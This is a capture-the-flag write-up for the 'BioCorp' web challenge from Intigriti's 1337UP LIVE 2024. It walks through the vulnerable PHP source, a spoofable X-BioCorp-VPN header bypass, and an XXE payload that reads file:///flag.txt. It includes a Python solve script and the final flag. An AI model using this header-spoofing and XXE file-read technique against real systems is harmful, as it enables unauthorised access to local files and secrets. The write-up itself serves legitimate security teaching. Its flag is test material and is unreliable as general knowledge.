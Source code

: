 ```yaml
---
name: BioCorp (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Web
description: Writeup for BioCorp (Web) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# BioCorp

## Challenge Description

> BioCorp contacted us with some concerns about the security of their network. Specifically, they want to make sure they've decoupled any dangerous functionality from the public facing website. Could you give it a quick review?

## Solution

Players will find a basic website, without much functionality.

![](./images/0.PNG)

![](./images/1.PNG)

The challenge includes source code, so let's check it. One thing that stands out immediately is a hidden control panel, only accessible when using a VPN-related header and IP.

```php
$ip_address = $_SERVER['HTTP_X_BIOCORP_VPN'] ?? $_SERVER['REMOTE_ADDR'];
if ($ip_address === '80.187.61.102') {
    echo '<li><a href="panel.php">Control Panel</a></li>';
}
```

We can use the match and replace function in burp to insert the header in all of our requests, or we could use a curl command.

![](./images/2.PNG)

Now we can access the panel.

![](./images/3.PNG)

So, what does the panel do? It displays the XML data from the nuclear equipment. However, it also accepts data via a POST request.

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && strpos($_SERVER['CONTENT_TYPE'], 'application/xml') !== false) {
    $xml_data = file_get_contents('php://input');
    $doc = new DOMDocument();
    if (!$doc->loadXML($xml_data, LIBXML_NOENT)) {
        echo "<h1>Invalid XML</h1>";
        exit;
    }
} else {
    $xml_data = file_get_contents('data/reactor_data.xml');
    $doc = new DOMDocument();
    $doc->loadXML($xml_data, LIBXML_NOENT);
}

$temperature = $doc->getElementsByTagName('temperature')->item(0)->nodeValue ?? 'Unknown';
$pressure = $doc->getElementsByTagName('pressure')->item(0)->nodeValue ?? 'Unknown';
$control_rods = $doc->getElementsByTagName('control_rods')->item(0)->nodeValue ?? 'Unknown';
```

Classic [XXE](https://portswigger.net/web-security/xxe) vulnerability, we can send something like this to receive the flag.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE reactor [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<reactor>
    <status>
        <temperature>&xxe;</temperature>
        <pressure>2000</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
```

Alternatively, automated the whole process into a solve script.

### solve.py

```python
import requests

# Target URL and headers
url = "https://biocorp.ctf.intigriti.io/panel.php"
headers = {
    "X-BioCorp-VPN": "80.187.61.102",
    "Content-Type": "application/xml"
}

# XML payload with XXE injection
data = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE reactor [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<reactor>
    <status>
        <temperature>&xxe;</temperature>
        <pressure>2000</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
"""

# Send the request
response = requests.post(url, headers=headers, data=data)

# Check the response
if response.status_code == 200:
    print("Response received:")
    print(response.text)
else:
    print(f"Request failed with status code {response.status_code}")
```

Flag: `INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}`
